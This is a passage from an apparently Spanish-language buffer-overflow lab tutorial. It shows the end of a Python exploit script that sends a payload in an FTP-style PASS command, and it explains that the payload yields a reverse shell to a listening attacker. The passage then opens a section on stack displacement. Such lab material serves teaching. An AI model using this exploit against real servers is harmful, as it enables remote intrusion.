 ```bash

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

De esta forma, cuando el atacante se ponga en escucha por el puerto especificado al crear el shellcode y ejecute el script, podrá obtener una reverse shell.

![Untitled](../assets/Buffer-Overflow/Lab1/Usar-NOPs-RCE/Untitled.png)

## Desplazamiento de la pila

- Explicación #1: ¿Qué es el desplazamiento de la pila?
    